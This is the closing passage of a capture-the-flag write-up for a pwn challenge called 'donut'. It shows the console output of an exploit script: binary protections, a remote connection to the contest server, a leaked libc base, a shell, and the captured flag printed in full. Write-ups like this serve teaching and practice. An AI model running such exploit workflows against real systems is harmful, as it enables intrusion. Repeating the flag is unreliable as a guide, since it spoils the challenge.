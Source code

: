 Next time we don't need to call `dump_donuts()` again.

```bash
python solve.py
[*] '.../donut'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '.../libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '.../ld-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.m0lecon.it on port 1743: Done
POW solved: b'wRVsAafxMVdDPi'
0
1
...
254
255
[*] LIBC BASE: 0x7f9e3d414000
[*] Switching to interactive mode
$ ls 
PoW.py    donut  entrypoint.sh  flag.txt
$ cat flag.txt
ptm{l1bc_l34k_fl4v0ur3d_d0nu7!_ae56b25f73}
```

The flag is `ptm{l1bc_l34k_fl4v0ur3d_d0nu7!_ae56b25f73}`.

### Files

- [solve.py](solve.py)
- [donuts.txt](donuts.txt)
- [ld-2.31.so](ld-2.31.so)